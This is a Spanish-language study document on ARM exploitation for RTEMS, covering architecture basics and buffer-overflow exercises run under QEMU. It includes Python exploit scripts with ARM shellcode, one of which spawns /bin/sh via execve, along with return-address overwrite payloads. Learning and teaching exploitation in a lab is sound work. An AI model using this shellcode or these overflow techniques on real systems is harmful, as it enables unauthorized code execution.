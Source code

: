 Explotación
===========

Se estudió como explotar RTEMS en ARM. Primero estudiando ARM en casos simples (emulado y en linux) para luego pasar a RTEMS particularmente (sobre ARM). Dado que no se tienen casos de uso real en RTEMS se simularon *buffer overflows* (desbordamiento de buffer) simples.

ARM
===

Primero se hace una breve introducción a ARM desde el punto de vista de sus diferencias con x86, principalmente orientado a las cuestiones de seguridad y explotación, y luego se realizan ejercicios de explotación básicos.

Introducción a ARM
==================

El objetivo de este documento es mencionar brevemente los puntos de ARM que resultaron relevantes durante este proyecto, no pretende ser una introducción completa a la arquitectura, simplemente mencionar similitudes y diferencias observadas entre x86 y ARM (particularmente orientado a su uso en RTEMS sobre la Raspberry Pi).

Como primera introducción se recomiendan los siguientes tutoriales:

* http://www.davespace.co.uk/arm/introduction-to-arm/

* http://www.exploit-db.com/wp-content/themes/exploit/docs/16151.pdf

La documentación más completa se encuentra en el sitio de ARM, principalmente, el Manual de Referencia de la Arquitectura:

* http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.subset.architecture.reference/index.html

y el Manual de Referencia Técnina de ARM1176JZF-S (versión particular del procesador de la RPi):

* http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0301h/index.html


Caracterísiticas Generales
--------------------------

Es un procesador tipo RISC de 32 bits, todo el acceso a memoria se hace mediante operaciones *Load* y *Store* (cargar y guardar) a registros. Tiene un modo que permite codificar las instrucciones más comunes en 16 bits (*Thumb Mode*) en el que por ahora no se va a profundizar.

El procesador de la RPi (ARM1176JZF-S) pertenece a la familia de ARM11, y tiene el set de instrucciones ARMv6.

Tiene 16 registros de propósito general nombrados ``R0``-``R15`` (más un *program status register* ``PSR``, registro de estado del programa), aunque los últimos 3 suelen tener un uso más específico:

* ``R13``: ``SP``, *Stack Pointer* (puntero a la pila).
* ``R14``: ``LR``, *Link Register* (registro de vinculación).
* ``R15``: ``PC``, *Program Counter* (IP en x86, puntero al programa).

De estos 3 el ``LR`` es el único registro "nuevo", desde el punto de vista de x86. Se usa para guardar la dirección de retorno de la función llamada. De todas formas, todos los registros tienen el mismo estatus y pueden ser utilizados en cualquier instrucción (con algunas excepciones particulares).

Algunas nomenclaturas que cambian son:

* *CALL/JUMP*: *BRANCH*
* *Program Counter*: *Instruction Register*

La pila (para Linux y RTEMS, al menos) se maneja igual que en x86, ``SP`` apunta al último valor apilado en el stack, cuya dirección (almacenada en ``SP``) se decrementa en cada ``push``. En la terminología de ARM es "*Full Descending*".

La mayoría de las instrucciones pueden ser codificadas como condicionales (similar a los saltos condicionales de x86). Muchas veces se observa que para un *if* de pocas instrucciones, el compilador no lo codifica como un bloque de codigo que es "saltado" según alguna condición (con un salto condicional). En vez de eso se codifica cada instrucción como condicional (según la misma condición del *if*), de modo de ejecutarse entero (todas las instrucciones) si se cumple dicha condición (de no cumplirse estas instrucciones son interpretadas como *NOPs* por el procesador).

Se trabaja con *Little-endian* (LE) por defecto, pero hay un flag en el PSR que permite cambiarlo a *Big-endian* durante la ejecución de un programa, de todas formas RTEMS trabaja siempre en LE.

``PC`` (*Program Counter*), al ser un registro de propósito general, se lo puede manipular de la misma manera que al resto (con excepciones puntuales en algunas funciones), y la mayoría de las referencias a direcciones (de memoria u otras funciones) dentro del código se realizan relativas a ``PC`` (*PC-relative*, similar a x86 en 64 bits), haciendo que gran parte del código generado sea independiente de su posición (PIC).


Llamado a funciones
--------------------

En ARM se utiliza la instrucción ``branch`` (similar a ``jmp`` de x86). Esta guarda la dirección de retorno en el regirstro ``LR`` y luego salta a la función indicada. Esta una diferencia importante respecto de la arquitectura x86 la cuál utiliza la instrucción ``call`` que apila la dirección de retorno en la pila previamente a salta a la función llamada.

De todas formas las llamadas a funciones en la práctica terminan siendo muy similares a x86, porque si la primera función llamada, que tiene su dirección de retorno en el ``LR``, debe llamar a su vez a otra función (que es lo más común excepto para una función "hoja"), debe preservar el valor de ``LR`` (su dir. de retorno) antes de hacer ``branch``. Esto lo hace guardando el valor de ``LR`` en la pila (en el preludio de la función). Por lo tanto, en la práctica, mientras que en x86 al inicio de la función se encontraba la dirección de retorno más otros registros en la pila (para preservarlos), en ARM, se hará un ``push`` de todo junto, es decir, de ``LR`` y el resto de los registros que sean necesarios preservar, quedando una estructura muy similar de la pila de x86.

Para retornar de una función, en lugar de la instrucción ``ret`` de x86 que hace ``pop`` de la instrucción de retorno y salta a ésta, en ARM se hace ``branch`` a la dirección contenida en el registro ``LR``. En caso de que la función en cuesión llamara a otra durante su ejecución, el valor de ``LR`` fue apilado oportunamente, por lo que debe realizar un ``pop`` a este registro antes de hacer el ``branch`` correspondiente. Dado que ``PC`` es un registro como cualquier otro, a veces, cuando está haciendo ``pop`` de otros registros preservados, realiza ``pop`` de ``LR`` directamente a ``PC`` saltando efectivamente a la dirección de retorno (en vez de hacer ``pop`` a ``LR`` y luego un ``branch`` con el valor de ``LR``).

ARM permite hacer *Load/Store* de múltiples valores consecutivos en memoria. Esto se traduce a que se pueden hacer ``push``/``pop`` de varios registros juntos (puede observarse muchas veces al inicio y fin de una función instrucciones como ``push {r7, lr}`` y ``pop {r7, pc}``, respectivamente).


Memoria
-------

Tiene una MMU pero no está habilitada en RTEMS por lo que no se discuté esto aquí. RTEMS usa *Flat Memory Model* donde las direcciones virtuales son las mismas que las físicas y toda la memoria es accesible desde cualquier punto de ejecución.


Excepciones
-----------

Además de la documentación de ARM, un buen material introductorio es el siguiente tutorial:

* http://osnet.cs.nchu.edu.tw/powpoint/Embedded94_1/Chapter%207%20ARM%20Exceptions.pdf

En ARM hay una tabla con los vectores de interrupción (EVT, *Exception Vector Table*), donde se asignan 4 bytes por interrupción. Cada entrada representa la dirección de la rutina de atención a la cual el procesador salta según el tipo de interrupción generada (ej: *Reset*, IRQ, instrucción indefinida, etc).

El punto de interés es que la EVT se encuentra en la dirección de memoria 0x0 (aunque hay una opción para ubicarla en 0xFFFF0000) por lo que puede ser vulnerable a accesos de memoria (lectura/escritura) con punteros de valor *NULL* (0x0).


ABI
---

Según la wiki de RTEMS:

* http://www.rtems.org/wiki/index.php/ARM-EABI

soporta la EABI de ARMv7-M:

* http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ihi0042e/index.html

Lo más importante para resaltar de la ABI es que a diferencia de x86 (32 bits) donde los parámetros se pasan por la pila, en ARM se pasan por los registros ``R0``-``R3``.


Syscalls
--------

Se implementan mediante la instrucción *SVC* (Supervisor Calls, antiguamente llamada SWI), similar al *INT* de x86. Sin embargo, en RTEMS todas las funciones (o servicios del sistema) se llaman mediante ``branch`` normales, es decir, sin invocar las SVC pues todo se ejecuta con el mayor nivel de permisos.


Constantes
----------

Como las instrucciones tienen un largo máximo de 32 bits no puede codificarse una función que manipule constantes de ese tamaño (que es el mismo de los registros también) dado que no dejaría lugar a la codificación de la instrucción misma. Esto se traduce, por ejemplo, a que no puede cargarse un número de 32 bits en un registro en una sola instrucción ``mov``.

Para solventar esto, el compilador (al menos lo observado con GCC) guarda estas constantes en la sección de solo lectura del programa y las carga al registro deseado con instrucciones de acceso a memoria. Las direcciones de estas constantes generalmente están codificadas al final de cada función. Por ejemplo, es común ver al final de una función una serie de constantes (que apuntan siempre al mismo rango de memoria). Estas se utilizan mediante instrucciones de carga de memoria, donde la dirección se indica relativa a ``PC``. Es decir, el compilador en una instruccion de *LOAD*, pide cargar en un registro la constante que está en memoria, cuya dirección se encuentra un cierto delta por debajo de la instrucción actualmente ejecutada (PC + delta).

Explotación en ARM
==================

Este documento detalla las primeras experiencias de explotación sobre ARM, usando ejercicios en C sacados de:

* http://community.coresecurity.com/~gera/InsecureProgramming/

Esta documentación fue generada antes de comenzar a experimentar sobre RTEMS. Aunque puede ser útil como documento introductorio, si se lo estudia como preparativo para RTEMS, hay que tener en cuenta que muchos de los mecanismos encontrados aquí (Linux) varían con respecto a la implementación de RTEMS. Se recomienda la lectura superficial, sin invertir mucho tiempo en los detalles que tendrán implementaciones distinas al estudiar ARM sobre RTEMS.

Las diferencias más importantes en RTEMS con respecto a lo documentado aquí son:

* Todo el código se compila en forma estática, no hay carga dinámica de funciones, por lo que no se implementan las tablas PLT/GOT.

* RTEMS no tiene llamadas a sistema por interrupciones (*syscalls*), toda la funcionalidad está implementada como funciones normales de C que se llaman con la interfaz estándar, independientemente de que sean funciones de usuario o del sistema operativo. Por esto no se observan instrucciones de llamadas a supervisor (SVC).

* Hasta donde se observó no se usa el modo *Thumb* de ARM (aunque está disponible en el micro de la RPi), todas las instrucciones son en 32 bits (no se ven instrucciones con el sufijo ".w" como se muestran aquí).

* No se observó que se utilice el *Frame Pointer* (FP). Todas las referencias a las variables son con respecto de SP, los preludios de las funciones varían significativamente con los de Linux.


Ambiente de desarrollo
----------------------

Para correr ARM en x86 se utiliza un compilador cruzado (*cross compiler*) de GCC, que aplica la EABI.

.. code-block:: bash

  sudo apt-get install gcc-arm-linux-gnueabi

La compilación se realiza mediante GCC y se agrega el parámetro ``-g3`` para habilitar la depuración, y los mismos parámetros utilizados en los ejercicios originales de los ABO (desbordamientos de *buffer* avanzados) que deshabilitan las protecciones comunes:

.. code-block:: bash

  arm-linux-gnueabi-gcc -g3 -D_FORTIFY_SOURCE=0 -fno-stack-protector -Wformat=0 -Wl,-z,norelro    hello.c  -o hello

Para correr el ejecutable se utiliza QEMU en modo de Usuario. Esto significa que a diferencia de los tests de RTEMS, no se levanta un sistema entero con el OS correspondiente, sino que se hace una traducción dinámica de las instrucciones ARM a x86 corriendo la aplicación como una más.

Se baja y compila el paquete de QEMU en modo Usuario, según el tutorial en:

http://xecdesign.com/compiling-qemu/

Para ejecutarlo hay que indicarle donde se encuentran las librerías de ARM, instaladas ya con el paquete ``gcc-arm-linux-gnueabi``, con el parámetro ``-L /usr/arm-linux-gnueabi/``. Además, para habilitar la depuración remota se abre un puerto con ``-g 1111``, el programa queda detenido al inicio hasta que se conecte GDB.

.. code-block:: bash

  qemu-arm -g 1111 -L /usr/arm-linux-gnueabi/ ./hello

Para conectarse con GDB hay que instalar el paquete que reconoce la arquitectura ARM:

.. code-block:: bash

  sudo apt-get install gdb-multiarch
  gdb-multiarch ./hello
  target remote :1111


Primer tutorial
---------------

El primer tutorial, antes de los ABOs, que se usó para trabajar es este:

http://www.exploit-db.com/wp-content/themes/exploit/docs/16151.pdf

Presenta el siguiente *buffer overflow*:

.. code-block:: c

  #include <stdio.h>
  #include <string.h>
  #include <stdlib.h>

  void dounuts() {
    puts("Donuts");
    exit(0);
  }

  void vuln(char*arg) {
    char buff[10];
    strcpy(buff, arg);
  }

  int main(int argc, char **argv) {
    vuln(argv[1]);
    return 0;
  }

La idea es abusar de la función ``strcpy()`` para copiar de más y pisar la dirección de retorno de ``vuln()`` y, en vez de volver a ``main()``, llamar a ``donuts()``.

El código de ensamblador de este programa (que puede ser visto con otra herramienta del paquete *gcc-arm*, ``arm-linux-gnueabi-objdump``) es:

.. code-block:: objdump

  0x83e0 <vuln>           push   {r7, lr}
  0x83e2 <vuln+2>         sub    sp, #24
  0x83e4 <vuln+4>         add    r7, sp, #0
  0x83e6 <vuln+6>         str    r0, [r7, #4]
  0x83e8 <vuln+8>         ldr    r3, [r7, #4]
  0x83ea <vuln+10>        add.w  r2, r7, #12
  0x83ee <vuln+14>        mov    r0, r2
  0x83f0 <vuln+16>        mov    r1, r3
  0x83f2 <vuln+18>        blx    0x8304 <strcpy>
  0x83f6 <vuln+22>        add.w  r7, r7, #24
  0x83fa <vuln+26>        mov    sp, r7
  0x83fc <vuln+28>        pop    {r7, pc}

``push`` pone en la pila todos los registros de la lista entre llaves. Algo importante para notar es que el orden en el que se empuja en la pila no es el de la lista, sino según el orden numérico de los registros (``LR`` es el ``R14``), con el registro de menor número en la dirección de memoria más baja.

Básicamente, hay dos sets de instrucciones, ARM de 32 bits y *Thumb* de 16 bits. Se puede observar por las direcciones de las instrucciones del ejemplo, que ocupan 16 bits, que estamos en el modo *Thumb* (notar que el modo de ejecución está codificado en un bit del registro de estado). Las únicas excepciones son las instrucciones ``add.w`` que ocupan 32 bits. El sufijo ``.w`` indica codificar la instrucción en 32 bits incluso si esta puede ser codificada en 16 (análogamente ``.n`` indica codificar en 16 bits). Esta variación es posible si se usa el set de instrucciones *Thumb-2*, que permite mezclar instrucciones de 32 y 16 bits.

``R7`` posiblemente esté funcionando, en este caso, como FP aunque tiene la misma dirección del SP. Los parámetros en ARM se pasan por los primeros 4 registros ``R0``-``R3``, en el mismo orden que los parámetros de C. Para el caso de ``strcpy``, ``R0`` tiene la dirección del *buffer* ``buff`` y ``R1`` tiene la dirección fuente de donde se va a copiar, ``arg``.

Como a su vez ``vuln(arg)`` ya tiene en ``R0`` su parámetro ``arg``, el mismo que utilizará ``strcpy``, el valor de ``R0`` se pasa a ``R1``. Esto no se ve claramente porque ``R0`` es primero almacenado en la pila: ``str  r0, [r7, #4]``, recuperado en ``R3`` mediante ``ldr  r3, [r7, #4]`` y de ``R3`` pasado finalmente a ``R1`` por ``mov  r1, r3``.

El *buffer* está almacenado en la pila, y su dirección pasada a ``R0`` por ``add.w  r2, r7, #12`` y  ``mov  r0, r2``.

El llamado a ``strcpy`` se hace mediante la instrucción ``blx``. La ``x`` indica que se cambiará el set de instrucciones utilizado, de *Thumb* a ARM (dado que, según se entiende, la librería de C de este paquete está compilada en ARM). La función ``strcpy`` utilza la PLT y la GOT como en un entorno de linux común. La diferencia más importante es que se utiliza un registro especial para realizar la indireccón, el registro IP (``R12``) denominado por ARM *intra-procedure call scratch register*.

Al retornar se libera el espacio reservado de la pila y se recuperan los registros guardados con ``push``. A ``PC`` se lo trata como un registro común, así que el valor de retorno que se habia apilado del ``LR`` ahora se pasa al ``PC`` como si fuera un ``mov`` común y la función retorna al ``main``.

``push`` y ``pop`` son sinónimos de las instrucciones de almacenamiento múltiples ``stmdb`` y ``ldm`` (``ldmia``), respectivamente. Se comportan igual que en x86. El sufijo db significa *Decrease Before* (decrementar antes), decrementa el valor de ``SP`` antes de guardar el dato en esa posición. El sufijo ``ia`` del ``pop`` significa *Incremente After* (incrementar luego), primero recupera el dato apuntado por ``SP`` y recién después aumenta su valor.

Como se ve con la instrucción ``blx``, el set de instrucciones (IS) puede ser cambiado entre llamadas de una función a otra (modificando el *flag* correspondiente en el registro de estado). La forma que tiene el sistema para saber, al retornar, si debe cambiar nuevamente el IS, es indicándolo en el bit menos significativo (LSB) de la dirección de retorno. Dado que la mínima instrucción tiene un largo de 16 bits, y todas las direcciones de instrucciones tienen que estar alineadas a ese tamaño (o sea, 2 bytes), este bit (LSB) es redundante. Si el bit está seteado cambia a *Thumb*, si esta en cero cambia a ARM.

Esto significa que al pisar una dirección de retorno para ganar el control de la ejecución hay que tener en cuenta este bit. A veces una dirección de retorno parece extrañamente ser un número impar pero es por este *flag*. Si el *flag* no coincide con el IS al que se esta retornando va a causar un error.

ARM admite tanto *Little-endian* como *Big-endian*, siendo el primero la codificación por defecto y no se observo en ningún lado que esto cambie, por lo que por ahora se asume que es siempre *Little-endian* como en x86.


*Buffer Overflow*
-----------------

Normalmente la dirección de retorno se guarda en ``LR``, pero al empezar a llamar a subrutinas, para no pisar el valor de este registro, se lo guarda en la pila antes de la próxima llamada. Esto hace que en términos prácticos la explotación sea la misma que en Linux para x86.

Antes de llamar a ``strcpy`` la pila (dibujada con las direcciones crecientes hacia arriba y la pila aumentando hacia abajo) es:

.. figure:: images/bo-overview.png
   :scale: 60 %
   :alt: Estructura de un *buffer overflow*.
   :align: center

Como se observa en el diagrama de la pila, la dirección del *buffer* (originalmente de 10 bytes) esta a 4 **words** (palabra, 1 word = 32 bits = 4 bytes) de distancia. Esto quiere decir que debe haber 16 bytes de *padding* y los próximos 4 bytes escritos van a sobreescribir la dirección de retorno de la función ``vuln`` (o sea, el valor anterior del ``LR``, almacenado en la pila, dado que se iba a llamar a ``strcpy``).

Sabiendo la dirección de la función ``donuts``, 0x000083c8, almacenada en memoria como ``c8 83 00 00`` (*Little-endian*), debían escribirse 20 bytes, 16 de *padding* y los últimos 4 con esta dirección de retorno para ganar el control de la ejecución. Al estar ejecutando en *Thumb*, la dirección de retorno debe tener el LSB seteado, por lo que en realidad, la dirección que hay que sobreescribir es ``0x83c9``, y no ``0x83c8`` (como sería en x86).

Esto se pudo comprobar con GDB, ejecutando el programa con el siguiente argumento:

.. code-block:: bash

    qemu-arm -g 1111 -L /usr/arm-linux-gnueabi/ ./hello \
        `python -c "print('a' * 16 + chr(0xc9) + chr(0x83) )"`


*Payloads*
----------

A continuación se documenta la codificación de *payloads*, código ensamblador que se inyecta en la máquina atacada mediante alguna vulnerabilidad explotada, que tiene generalmente como objetivo instanciar una consola de comando impersonando al usuario *root*. Se utilizó el primer ABO para probar un *payload* básico de ARM, obtenido del tutorial:

* http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/

El ABO es simplemente un *buffer overflow* donde se debe cargar el *payload* en el *buffer* y hacer que la función retorne dentro de este:

.. code-block:: c

  /* abo1.c                                       *
   * specially crafted to feed your brain by gera */

  /* Dumb example to let you get introduced...    */

  int main(int argv,char **argc) {
    char buf[256];

    strcpy(buf,argc[1]);
  }

Analizando el código ensamblador de ARM se puede observar que el *buffer* esta justo antes de los registros apilado ``R7`` y ``LR``:

.. code-block:: objdump

  0x836c <main>           push   {r7, lr}
  0x836e <main+2>         sub    sp, #264        ; 0x108
  0x8370 <main+4>         add    r7, sp, #0
  0x8372 <main+6>         add.w  r3, r7, #4
  0x8376 <main+10>        str    r0, [r3, #0]
  0x8378 <main+12>        mov    r3, r7
  0x837a <main+14>        str    r1, [r3, #0]
  0x837c <main+16>        mov    r3, r7
  0x837e <main+18>        ldr    r3, [r3, #0]
  0x8380 <main+20>        add.w  r3, r3, #4
  0x8384 <main+24>        ldr    r3, [r3, #0]
  0x8386 <main+26>        add.w  r2, r7, #8
  0x838a <main+30>        mov    r0, r2
  0x838c <main+32>        mov    r1, r3
  0x838e <main+34>        blx    0x82c0 <strcpy>
  0x8392 <main+38>        mov    r0, r3
  0x8394 <main+40>        add.w  r7, r7, #264    ; 0x108
  0x8398 <main+44>        mov    sp, r7
  0x839a <main+46>        pop    {r7, pc}

Igual que en el ejemplo anterior ``R7`` está antes que ``LR``, por lo que habrá que sobreescribir 260 bytes de relleno (256 del *buffer* y 4 de ``R7``) antes de llegar a la dirección de retorno almacenada en ``LR``.

Dado que esta versión de ARM no tiene ASLR la dirección en la pila del *buffer* (donde se va a redirigir la ejecución del programa) es siempre la misma y se puede averiguar con gdb:

.. code-block:: bash

  (gdb) p &buf
  $3 = (char (*)[256]) 0xf6ffeff0

Al ser *Little-endian* la dirección se sobreescribirá como: ``f0 ef ff f6``. Por simplicidad se utiliza un código de python que llama a QEMU para cargar el programa y le pasa, además de los parámetros vistos antes, el *payload* como argumento de la función ``main``.

.. code-block:: python

  #! /usr/bin/env python
  import subprocess

  # Shellcode sacado de: http://shell-storm.org/blog/Shellcode-On-ARM-Architecture/
  sc = "\x01\x60\x8f\xe2\x16\xff\x2f\xe1\x10\x22\x79\x46\x0e\x31\x01\x20\x04\x27
        \x01\xdf\x24\x1b\x20\x1c\x01\x27\x01\xdf\x73\x68\x65\x6c\x6c\x2d\x73\x74
        \x6f\x72\x6d\x2e\x6f\x72\x67\x0a"

  # Padding para ocupar todo el *buffer* de 256 bytes y R7 (otros 4 bytes mas)
  # Luego se agrega la direccion de retorno al comienzo del *buffer* (escrito al
  # reves por ser little endian)
  sc += (260 - len(sc)) * 'a' + '\xf0\xef\xff\xf6'

  # Para debuggear agregar los flags: '-g', '1111',
  process = subprocess.Popen(['qemu-arm', '-L', '/usr/arm-linux-gnueabi/', './abo.out', sc])

  process.wait()
  exitCode = process.returncode
  print("Termino con: " + str(exitCode))

El *payload* básicamente llama a ``write`` para escribir una cadena ("shell-storm.org") y luego a ``exit`` para terminar la ejecución del programa, si funciona correctamente se verá:

.. code-block:: bash

  stic@stic-laptop: python abo1.py
  shell-storm.org
  Termino con: 0

Lo más importante para comentar del *payload* es que igual que en x86, ``write()`` y ``exit()`` se llaman utilizando llamadas al sistema con la instrucción ``SVC``, pasando los argumentos por los registros ``R0``-``R3``.

Para evitar bytes nulos en el *payload* se aprovecha del set de instrucciones *Thumb*, mucho más denso, que tiene las instrucciones necesarias para llamar a los syscalls pero al ser más comprimido se evitan muchos ceros. Por esa misma razón el argumento de la instrucción ``SVC``, una constante que es ignorada en este caso, se pasa del tradicional valor 0 a 1: ``SVC 1``, que tiene el mismo efecto. **Por esta razón es necesario compilar el QEMU desde cero y no bajar el paquete de Ubuntu, que falla con ``SVC 1``**.

Otro punto interesante es que para pasar a *Thumb Mode*, hace, dentro del mismo *payload*, un salto a la próxima instrucción pero con LSB puesto en 1 para cambiar de modo ARM a *Thumb*.


Ejecución de una Consola mediante ``execve``
--------------------------------------------

El mismo tutorial del ejemplo anterior incluía un *payload* para levantar una consola mediante la función ``execve``. De hecho, en el mismo sitio de *Shell-Storm* hay una base de datos con *payloads* para distintas arquitecturas, incluyendo ARM:

* http://www.shell-storm.org/shellcode/

Al tratar de reproducir directamente el *payload* del ejemplo en QEMU (nuevamente con el primer ABO) la llamada a ``execve`` fallaba (por distintos factores de implementación que se discutirán luego), por lo que se realizaron varias modificaciones.

Se partió de otro *payload* similar al del ejemplo (elegido principalmente porque estaba mejor comentado):

* http://www.shell-storm.org/shellcode/files/shellcode-855.php

Al que se le fue incorporando código del *payload* del ejemplo original, que se puede encontrar también en la base de datos de *payloads* del sitio:

* http://www.shell-storm.org/shellcode/files/shellcode-665.php

De todas formas el *payload* final sufrió varias modificaciones y perdió mucha semejanza con el *payload* original del que se partió (listado más que nada como una referencia).

La función ``execve`` lleva tres argumentos:

* *String* (cadena de caracteres) con el nombre del programa.
* Vector de strings con los parámetros del programa.
* Vector de strings con las variables de entorno.

Para levantar un shell sencillo simplemente hay que tener un *string* ``/bin/sh``, y construir un *array* con un solo elemento que apunte al mismo *string*, ya que el primer argumento del programa debe ser el propio nombre. El vector de las variables de entorno puede ser nulo.

El mayor inconveniente es que sin introducir bytes nulos en el *payload* es necesario poner en cero distintas partes de memoria. El *string* ``/bin/sh`` debe terminar con un cero y el vector de *strings* con los parámetros debe tener su segundo elemento también en cero, indicando que no hay más elementos además del nombre del programa. El vector con las variables de entorno se pasa por registro (``R2``) así que solo hay que poner el registro en cero.

Aunque se podía reformatear el exploit para que el *string* estuviera al final y coincidiera con el ``\0`` del *payload*, sigue faltando poner el segundo elemento del vector de parámetros en cero (aunque ese vector se almacena en la pila no se puede garantizar de que tenga un cero desde antes). Este segundo requerimiento es restrictivo, al menos en la implementación del QEMU, haciendo que la llamada a ``execve`` falle de no cumplirse, y es un detalle que no se vio que se solucionara en ninguno de los *payloads* de ARM para ``execve`` (lo cual es bastante llamativo y podría indicar que se está pasando por alto algún otro detalle importante).

Para solucionar esto se codificó manualmente la instrucción ``STR`` del set de instrucciones de *Thumb*, que permite guardar un registro (en este caso puesto a cero) en posiciones de memoria indicadas por otro registro (como el SP por ejemplo).

A continuación se muestra el código de python con el *payload*, los puntos más importantes a tener en cuenta son:

* En este caso se utilizó *xor* (instrucción ``eors``) para poner los registros en cero, en vez de ``subs`` del *payload* anterior, ambas instrucciones no contienen bytes nulos.

* ``R0`` (primer argumento de ``execve``) apunta al string (al final del *payload*) con la dirección de la consola, esta se obtiene a partir del PC y el delta depende de cuántas instrucciones haya en el medio. De modificarse el *payload* hay que modificar el delta.

* La dirección de la consola se escribe como ``//bin/sh`` con dos barras al principio (la segunda es ignorada y no tiene efecto) para que entre exactamente en dos *words* (8 bytes).

* ``R1`` (segundo argumento) inicialmente se pone en cero para usarlo con el ``STR`` y poner bytes nulos al final del *string* y en la segunda posición del vector.

* El vector, almacenado en la pila, comienza en ``SP + 4`` (dirección luego almacenada en ``R1``), en vez de ``SP + 0``, para evitar instrucciones con bytes nulos (nuevamente, una suposición).

* Como se dijo antes, el argumento de *SVC* es ignorado, el número de la llamada a sistema se almacena en ``R7``.

* La función ``execve`` de tener éxito no retorna, por lo que no es necesario agregar un ``exit`` luego.

.. code-block:: python

  #! /usr/bin/env python
  import subprocess

  # Payload
  sc =   ( # los parentesis me permiten poner comentarios luego del '+'

          # Se pasa a Thumb Mode
          "\x01\x60\x8f\xe2"    +         # add     r6, pc, #1
          "\x16\xff\x2f\xe1"    +         # add     bx      r6

          # Se setea R0 con la direccion del string del shell
          "\x40\x40"            +         # eors    r0, r0
          "\x78\x44"            +         # add     r0, pc
          "\x10\x30"            +         # adds    r0, #16

          # WARNING!!! El offset de la instruccion anterior (adds) depende de
          # la cantidad de bytes de instrucciones que haya entre este punto y
          # el string del shell (offset codificado en el primer byte de la
          # instruccion), y debe ajustarse de modificarse el payload mas alla
          # de este punto.

          # Se guarda la dir del string en la primera posicion del vector de
          # parametros (que comienza en SP + 4)
          "\x01\x90"            +         # str     r0, [sp, #4]

          # Se usa R1 para poner bytes nulos al final del string (apuntado por
          # R0 y de largo 8 bytes) y en el segundo elemento del vec de
          # parametros (SP + 8)
          "\x49\x40"            +         # eors    r1, r1
          "\x81\x60"            +         # str     r1, [r0, #8]
          "\x02\x91"            +         # str     r1, [sp, #8]

          # R1 queda apuntando al vector de parametros
          "\x01\xa9"            +         # add     r1, sp, #4

          # R2 (vec de var de entorno) no se usa
          "\x52\x40"            +         # eors    r2, r2

          # Se pasa el numero de syscal (11) por R7
          "\x0b\x27"            +         # movs    r7, #11
          "\x01\xdf"            +         # svc     1

          "\x2f\x2f\x62\x69\x6e\x2f\x73\x68"          # .ascii  "//bin/sh"
  );

  # Padding para ocupar todo el *buffer* de 256 bytes y R7 (otros 4 bytes mas)
  # Luego se agrega la direccion de retorno al comienzo del *buffer* (escrito
  # al reves por ser little endian)
  sc += (260 - len(sc)) * 'a' + '\xf0\xef\xff\xf6'

